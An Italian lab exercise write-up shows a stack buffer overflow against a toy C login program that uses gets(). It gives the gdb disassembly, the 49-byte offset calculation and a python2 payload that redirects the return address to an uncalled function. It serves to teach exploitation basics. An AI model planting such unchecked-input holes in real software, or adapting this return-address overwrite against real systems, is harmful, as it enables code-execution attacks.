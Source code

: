 # Esercizio 3.1 – Forzare l'invocazione di una funzione inesistente

## Codice C
```c
#include <stdio.h>
#include <string.h>
#include <stdbool.h>

bool login(){
    char password[X];
    printf("Inserisci la parola d'ordine: \n");
    gets(password);
    return strcmp(password, "segreto") == 0;
}

void accedi(){
    printf("Hai eseguito l'accesso correttamente\n");
}

void impossibile(){
    printf("Funzione mai invocata!\n");
}

int main(int argc, char* argv[]){
    bool autorizzato;

    autorizzato = login();

    if (autorizzato)
        accedi();
    else
        printf("Spiacente, parola d'ordine errata. Accesso negato\r\n");

    return 0;
}
```

In questo esercizio vogliamo usare un **buffer overflow** per modificare **l'indirizzo di ritorno** della funzione `login()` e far sì che, invece di tornare al `main()`, si esegua la funzione `impossibile()`, altrimenti mai chiamata.

---

## Analisi della funzione `login`

Eseguiamo il disassemblaggio:
```gdb
(gdb) disass login
Dump of assembler code for function login:
   0x0804846b <+0>:     push   %ebp
   0x0804846c <+1>:     mov    %esp,%ebp
   0x0804846e <+3>:     sub    $0x38,%esp
   0x08048471 <+6>:     sub    $0xc,%esp
   0x08048474 <+9>:     push   $0x80485a0
   0x08048479 <+14>:    call   0x8048340 <puts@plt>
   0x0804847e <+19>:    add    $0x10,%esp
   0x08048481 <+22>:    sub    $0xc,%esp
   0x08048484 <+25>:    lea    -0x2d(%ebp),%eax   ; buffer
   0x08048487 <+28>:    push   %eax
   0x08048488 <+29>:    call   0x8048330 <gets@plt>
   0x0804848d <+34>:    add    $0x10,%esp
   0x08048490 <+37>:    sub    $0x8,%esp
   0x08048493 <+40>:    push   $0x80485bf
   0x08048498 <+45>:    lea    -0x2d(%ebp),%eax   ; buffer
   0x0804849b <+48>:    push   %eax
   0x0804849c <+49>:    call   0x8048320 <strcmp@plt>
   0x080484a1 <+54>:    add    $0x10,%esp
   0x080484a4 <+57>:    test   %eax,%eax
   0x080484a6 <+59>:    sete   %al
   0x080484a9 <+62>:    leave
   0x080484aa <+63>:    ret
End of assembler dump.
```

La funzione:
1. Stampa un messaggio ("Inserisci la parola d'ordine")
2. Legge l'input nel **buffer** `-0x2d(%ebp)` tramite `gets()`.
3. Confronta (`strcmp`) l'input con la stringa "segreto".
4. Se `strcmp == 0`, imposta `%al = 1` (ritorna `true`), altrimenti 0 (`false`).
5. Fa `leave; ret`.

### Distanza tra il buffer e il return address

Con un breakpoint a `main+29` o proprio alla `gets()`, verifichiamo con `info registers`:
```
(gdb) i r
eax = 0xffffd59b
...
ebp = 0xffffd5c8
```

- Il buffer inizia a `eax = 0xffffd59b` (dato dalla `lea -0x2d(%ebp), %eax`).
- `ebp = 0xffffd5c8`.

Allora:
```
offset  = ebp - eax
        = 0xffffd5c8 - 0xffffd59b
        = 45
```

**Attenzione**: questo offset di 45 byte ti porta fino al **saved EBP** (ovvero l'area dove si trova il vecchio EBP sullo stack). Ma per sovrascrivere il **return address**, devi superare anche quei 4 byte. Quindi:

```
45 (fino al saved EBP) + 4 (size of saved EBP) = 49
```

Per cui, **49 byte** di riempimento totali prima di iniziare a sovrascrivere l'indirizzo di ritorno.

## Indirizzo di `impossibile()`

Usiamo `disass impossibile` o `p impossibile` per scoprire dove si trova:
```gdb
(gdb) disass impossibile
...
   0x080484c4 <+0>: push %ebp
   ...

Indirizzo di inizio funzione: 0x080484c4
```

In esadecimale, `0x080484c4` in **little endian** si rappresenta come:
```
\xc4\x84\x04\x08
```

## Creazione del Payload

Costruiamo quindi un payload di:
1. **49 byte** di filler (per sovrascrivere il buffer e il saved EBP)
2. 4 byte con l'indirizzo di `impossibile()` in little endian.

Esempio:

```bash
python2 -c "print 'A'*49 + '\xc4\x84\x04\x08'" | ./esercizio3_1
```

### Risultato

Se tutto funziona, vedremo:
```
Inserisci la parola d'ordine:
Funzione mai invocata!
Segmentation fault
```

(o potrebbe chiudersi senza `Segmentation fault` a seconda delle protezioni e di come gestisce il ritorno dopo `impossibile()`).

**In ogni caso**, significa che abbiamo sovrascritto con successo il return address di `login()` e abbiamo eseguito la funzione `impossibile()`. Se volessimo un'uscita "pulita", potremmo dover aggiustare la call e/o i registri.

